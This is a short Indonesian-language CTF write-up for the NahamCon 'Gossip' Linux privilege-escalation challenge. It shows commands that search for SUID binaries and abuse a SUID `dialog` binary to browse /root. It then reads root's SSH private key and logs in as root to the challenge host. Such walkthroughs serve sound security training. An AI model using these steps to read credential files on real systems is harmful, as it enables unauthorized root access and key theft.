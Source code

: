 # Gossip
#easy #privilegeescalation


Ssshh, don't talk too loud! These conversations and gossip are only for us privileged users ;)  
  
Escalate your privileges and retrieve the flag out of root's home directory.  
  
There is intentionally no `/root/flag.txt` file present.

## Target
- Di sini kita terhubung dengan ssh sebagai user biasa, kemungkinan flag terdapat di root folder.  
![](attachments/Pasted%20image%2020220506135315.png)

## Solusi
- Salah satu cara untuk melakukan privilege escalation adalah mencari SUID atau permission 4000 pada Linux.  
```sh
find / -type f -perm -4000 2>/dev/null
```
![](attachments/Pasted%20image%2020220506135830.png)  

- Terdapat dialog pada gtfobin: https://gtfobins.github.io/#dialoog.  
![](attachments/Pasted%20image%2020220506135936.png)  

- Coba bermain dengan dialog  
```shell
dialog --fselect /root 100 100
```

- Kita tidak bisa membaca getflag, karena adalah binary executable. Namun di sana terdapat `id_rsa` yang bisa digunakan untuk melakukan eskalasi.  
![](attachments/Pasted%20image%2020220506141124.png)  

- Yups terbaca sebuah kunci untuk melakukan ssh.  
![](attachments/Pasted%20image%2020220506141245.png)  

- Kita paste id_rsa tersebut, namun file yang dihasilkan sangat kotor. Terdapat banyak sekali spasi dan tanda `|` yang menyebabkan kunci ini tidak bisa dipakai.   
![](attachments/Pasted%20image%2020220506141551.png)  

- Dengan menggunakan sed, kita bersihkan id_rsa tersebut. 
```sh
sed -i 's/│//g'
sed -i 's/^[ /t]*//g'
sed -i 's/[ /t]*$//g'
```

- Hasil setelah dibersihkan dari karakter yang tidak digunakan. 
![](attachments/Pasted%20image%2020220506144420.png)  

- Dicek apakah id_rsa ini sudah bisa digunakan? 
![](attachments/Pasted%20image%2020220506150158.png)  

- Sebagai persyaratan untuk konek ke ssh, permission harus sesuai.  
```sh
chmod 400 id_rsa
```

- Konek ke ssh menggunakan id_rsa yang sudah dibersihkan.
```sh
ssh -i "id_rsa" -p 31366 root@challenge.nahamcon.com
```

- Get flag!  
![](attachments/Pasted%20image%2020220506150614.png)

